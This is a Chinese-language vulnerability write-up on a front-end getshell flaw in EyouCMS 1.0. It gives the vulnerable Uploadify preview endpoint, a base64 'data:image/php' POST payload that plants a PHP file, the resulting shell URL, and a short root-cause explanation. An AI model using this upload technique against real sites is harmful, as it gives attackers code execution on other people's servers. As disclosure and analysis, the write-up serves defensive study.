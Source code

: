 Eyoucms 1.0 前台getshell
========================

一、漏洞简介
------------

官网：http://www.eyoucms.com/download/Cms下载地址：http://www.eyoucms.com/eyoucms1.0.zip

二、漏洞影响
------------

三、复现过程
------------

老样子：先讲如何利用

    url: http://test.eyoucms1.0.com/index.php/api/Uploadify/preview

    构造: <?php phpinfo;

![](./.resource/Eyoucms1.0前台getshell/media/rId24.png)

    post: data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==

![](./.resource/Eyoucms1.0前台getshell/media/rId25.png)

Shell:
http://test.eyoucms1.0.com/preview/ae85d74a721b0b8bd247bc31207a12e2.php

![](./.resource/Eyoucms1.0前台getshell/media/rId26.png)

![](./.resource/Eyoucms1.0前台getshell/media/rId27.png)

### 原理分析

漏洞文件： eyoucms1.0\\application\\api\\controller\\Uploadify.php漏洞函数：preview()

![](./.resource/Eyoucms1.0前台getshell/media/rId29.png)

![](./.resource/Eyoucms1.0前台getshell/media/rId30.png)

这里我将每行有意义的代码都解释了一下帮助读者进行查看。

而我刚开始时也思考了一下，这会不会是作者故意搞的后门？带着这个问题我去问了一下加的php群的一些程序员 他们很惊讶的
表示data:image/ 居然还可以不是图片？好吧。到这里我就基本明白为什么这个漏洞会出现了，估计作者以为data:image/
只能是图片。

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/kbh8mh
